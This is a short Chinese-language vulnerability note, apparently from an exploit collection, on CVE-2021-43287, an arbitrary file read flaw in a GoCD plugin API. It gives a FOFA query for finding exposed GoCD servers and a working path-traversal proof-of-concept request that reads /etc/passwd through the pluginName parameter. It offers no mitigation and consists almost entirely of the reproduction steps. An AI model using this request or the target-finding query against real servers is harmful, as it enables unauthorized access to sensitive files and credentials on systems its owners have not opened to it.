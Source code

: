 # GoCD plugin 任意文件读取漏洞 CVE-2021-43287

## 漏洞描述

GoCD plugin aip 参数中的 pluginName 参数存在任意文件读取漏洞，导致攻击者可以获取服务器中的任意敏感信息

## 漏洞影响

<a-checkbox checked>GoCD</a-checkbox></br>

## FOFA

<a-checkbox checked>title="Create a pipeline - Go"</a-checkbox></br>

## 漏洞复现	

主页面

![img](../../../.vuepress/public/img/1636434942043-e6504dd1-b77e-4e24-b4d9-53721500b5d7.png)

验证POC

```php
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![img](../../../.vuepress/public/img/1636435040571-3f50c183-822e-4680-a15c-8d2bf7268161.png)
